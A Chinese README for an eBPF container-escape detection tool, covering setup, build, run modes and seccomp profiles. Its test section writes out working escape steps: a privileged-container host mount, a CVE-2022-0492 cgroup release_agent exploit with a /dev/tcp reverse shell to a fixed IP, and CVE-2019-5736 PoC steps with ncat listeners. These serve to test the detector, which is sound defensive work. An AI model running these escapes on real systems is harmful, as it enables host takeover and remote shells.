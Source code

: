 # eBPF detector

## 环境依赖
1. 编译程序需要clang/llvm 版本>10，安装教程：https://apt.llvm.org/  
2. 本项目集成了docker镜像扫描工具trivy进行容器镜像的预扫描，若想使用该功能则需要安装trivy

```shell
# 使用apt源安装
sudo apt-get install wget apt-transport-https gnupg lsb-release
wget -qO - https://aquasecurity.github.io/trivy-repo/deb/public.key | sudo apt-key add -
echo deb https://aquasecurity.github.io/trivy-repo/deb $(lsb_release -sc) main | sudo tee -a /etc/apt/sources.list.d/trivy.list
sudo apt-get update
sudo apt-get install trivy

# 使用deb包安装
wget https://github.com/aquasecurity/trivy/releases/download/v0.30.4/trivy_0.30.4_Linux-64bit.deb
sudo dpkg -i trivy_0.30.4_Linux-64bit.deb
```

## 编译运行
1. 在主文件夹目录下初始化submodule
```shell
git submodule update --init --recursive
```
2. 在src目录下编译
```shell
make all
```
3. 运行单个组件
```shell
sudo ./syscount
```
4. 运行主程序
```shell
# 在监控模式下启动容器，并进行预扫描
# -a表示检测到异常后执行的响应：
## alert表示无响应，仅记录到日志中；
## intercept表示中断逃逸进程
# run参数表示通过main.py启动容器，-c后参数为启动容器的命令
# -s表示对容器镜像进行预扫描
sudo python3 main.py -a alert/intercept run -c "sudo docker run -itd --rm --name=test alpine /bin/sh" -s alpine

```
或者
```shell
# monitor表示只启动检测系统，-p后的参数为需要监控的容器的进程号
sudo python3 main.py -a alert monitor -p 1234
```
5. 容器方式
```shell
sudo docker run --rm -it --pid=host --cgroupns=host -v /home/ubuntu/Documents/container_escape_detection/src/main.py:/main.py -v /sys/kernel/:/sys/kernel/ -v /sys/fs/bpf/:/sys/fs/bpf/ -v /var/run/docker.sock:/var/run/docker.sock -v /home/ubuntu/Documents/container_escape_detection/src/log/:/container_monitor/log/ --privileged monitor:v3 /main.py -a intercept run -c "sudo docker run -itd --rm --name=test3 ubuntu /bin/bash"
```
## 说明
### 1. 
由于seccomp文件只能在容器启动时进行设置，暂时考虑容器的两种情况：

（1）容器已经启动 （2）容器使用main.py启动

- 对于（1），执行syscall调用监控、file操作监控、process操作监控，可以生成seccomp文件但不能应用

- 对于（2），需要预启动容器，模拟容器正常任务流，执行syscall调用监控（这个监控应该是整个容器生命周期的，包括启动、执行、停止，可以使用其它工具，比如sysdig），利用收集的syscall生成seccomp文件，然后启动容器，并添加参数“--security-opt seccomp=seccomp.json”。随后，执行file操作监控、process操作监控、syscall调用监控

**注意**：使用seccomp要安装一下包

```shell
sudo apt install libseccomp-dev libseccomp2 seccomp
```

### 2.
只做监控或许不够，也要有“响应”。参考[bouheki](https://github.com/mrtc0/bouheki/tree/master/pkg/bpf/c)这个，可以对file、mount设置黑名单，但是这个功能需要高版本内核（Linux Kernel >= 5.8.0），可以用ubuntu20.10测试


## 检测漏洞
### 1. 特权容器
> 该逃逸不限docker和Linux内核版本\
> 参考：https://github.com/Metarget/metarget/blob/master/writeups_cnv/config-privileged-container

使用main.py创建一个带特权的容器：
```shell
sudo python3 main.py -a alert/intercept run -c "sudo docker run -itd --rm --name privileged_container --privileged ubuntu /bin/bash"
```

进入当前正在运行的容器，并实施逃逸攻击：
```shell
# 进入容器
sudo docker exec -it privileged_container /bin/bash
# or
sudo docker attach privileged_container

# 容器内
mkdir host
mount /dev/sda1 /host   #/dev/sda1根据本机实际情况修改，可用fdisk工具查看
chroot /host
```

### 2. CVE-2022-0492
> 测试版本：Linux kernel-5.8.0；docker-18.03.1\
> 参考：https://github.com/Metarget/metarget/blob/master/writeups_cnv/kernel-cve-2022-0492

使用main.py创建一个禁用了AppArmor和Seccomp的容器：
```shell
sudo python3 main.py -a alert/intercept run -c "sudo docker run -itd --name=cve4092 --security-opt apparmor=unconfined --security-opt seccomp=unconfined --name=cve0492 --rm ubuntu /bin/bash"

```

在接收反弹shell的主机上监听4444端口：
```shell
ncat -lvnp 4444
```

进入当前正在运行的容器，并实施逃逸攻击：
```shell
# 进入容器
sudo docker exec -it cve0492 /bin/bash
# or
sudo docker attach cve0492

# 容器内
unshare -UrmC bash    # 这一步可以获取SYS_ADMIN权限
mount -it cgroup -o rdma cgroup /mnt
d=`dirname $(ls -x /mnt/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
printf '#!/bin/bash\n/bin/bash -i >& /dev/tcp/192.168.233.139/4444 0>&1' > /exp.sh; chmod 777 /exp.sh  # 此处IP地址为接收反弹shell的IP地址
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$t/exp.sh" > $d/release_agent
sh -c "echo 0 >$d/w/cgroup.procs"

```

### 3. CVE-2019-5736
> 测试版本：Linux kernel-5.8.0；docker-18.03.1\
> 参考：https://github.com/Frichetten/CVE-2019-5736-PoC

使用main.py启动一个容器：
```shell
sudo python3 main.py -a alert/intercept run -c "sudo docker run -itd --name=cve5736 --rm ubuntu bash"
```

在接收反弹shell的主机上监听1234端口：
```shell
ncat -lvnp 1234
```

将漏洞利用程序拷贝进容器内，并进入容器：
```shell
# 拷贝漏洞利用程序进入容器内
# 漏洞利用代码在vuls/cve-2019-5736/main.go，需修改payload中接收反弹shell的IP地址，编译后使用
sudo docker cp main cve5736:/

# 进入容器
sudo docker exec -it cve5736 /bin/bash
# or
sudo docker attach cve5736

# 容器内
chmod +x main
./main
```

另执行sh命令触发漏洞：
```shell
sudo docker exec cve5736 sh
```
